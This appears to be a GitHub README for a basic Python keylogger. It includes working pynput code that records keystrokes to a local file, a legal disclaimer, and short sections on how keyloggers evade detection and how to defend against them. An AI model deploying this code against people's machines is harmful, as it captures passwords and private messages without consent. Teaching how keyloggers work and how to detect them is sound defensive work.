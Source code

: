 # Python Keylogger

This is a simple Python script that logs keyboard activity using the `pynput` library. It records keystrokes and saves them to a local file called `keyfile.txt`.

This tool is intended solely for educational and ethical testing purposes — such as learning how keyloggers function, how they can be detected, and how to defend against them.

---

## Disclaimer

**This project is for educational use only.**  
Do not run this script on any system without explicit written permission from the owner. Unauthorized use may violate local, state, or federal laws.

---

## How It Works

- Listens for keyboard input using `pynput.keyboard`
- Logs printable characters to `keyfile.txt`
- Records special keys like `Enter`, `Tab`, `Shift` as `[Key.enter]`, `[Key.shift]`, etc.
- Stops listening when the Escape key is pressed

### Code Overview

```python
from pynput import keyboard 

def key_pressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logkey:
        try:
            logkey.write(key.char)
        except AttributeError:
            logkey.write(f'[{key}]')

def on_release(key):
    # Stop listener if Esc is pressed
    if key == keyboard.Key.esc:
        return False

if __name__ == "__main__":
    with keyboard.Listener(on_press=key_pressed, on_release=on_release) as listener:
        listener.join()

```
Why Keyloggers Are Dangerous
Keyloggers are often hidden and run silently in the background. Malicious actors can:

Embed them into system startup scripts or schedule them using tools like Task Scheduler

Capture sensitive data, such as passwords and personal messages

Use misleading process names to avoid detection in the Task Manager

Exfiltrate logged data to remote servers

How to Protect Against Keyloggers
Use up-to-date antivirus or anti-malware software

Regularly check running processes in Task Manager or a system monitor

Monitor for unusual file changes or log generation

Educate users on phishing and software hygiene

Implement application whitelisting and least-privilege policies
